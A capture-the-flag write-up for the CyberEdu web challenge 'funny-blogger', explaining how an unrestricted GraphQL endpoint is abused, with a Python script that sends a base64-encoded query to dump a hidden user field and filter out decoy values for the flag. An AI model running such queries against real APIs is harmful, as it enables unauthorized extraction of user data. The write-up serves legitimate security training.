




# Write-up: 
##  funny-blogger

**Category:** Web
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/bd9af0d0-94fe-11ea-a8fe-8f6d05d3ec07`

---



So the page it pulls the article number out of the URL and it sends a post request to /query.
The filed "data" contains a base64 encoding.
The base64 decodes to JSON containing a GraphQL query:



So `/query` is a GraphQL endpoint returning all the posts from the database.

"someone managed to obtain access to my DB. How?".
Well, /query accepts arbitrary GraphQL queries ; anyone cand send whatever they want.

I wrote a python script to list the api's schema and found an interesting field:


It belongs to the `UserObject` type.

Now, in order to access `randomStr1ngtoInduc3P4in`, I crafted a new query:
query entry point(allUsers) -> edges -> node -> id and randomStr1ngtoInduc3P4in



Hmm, I think between all the reponses with `ECSC{Nope! Try harder! Nope! Try harder! Nope! Try harder! Nope! Try h}`, there should be our flag hidden... Let's filter the results:


``` py

import base64
import json
import requests


url = "http://34.185.167.212:32513/query"


graphql_query = """
{
  allUsers{
    edges {
      node {
        name
        randomStr1ngtoInduc3P4in
      }
    }
  }
}
"""

payload_json = {"query": graphql_query}

encoded = base64.b64encode(json.dumps(payload_json).encode()).decode()

r = requests.post(
    url,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data = f"query={encoded}"
)

data = r.json()

users = data['data']['allUsers']['edges']

for edge in users:
    flag = edge['node']['randomStr1ngtoInduc3P4in']
    if "Nope!" not in flag:
        print(flag)


```



There it is our flag!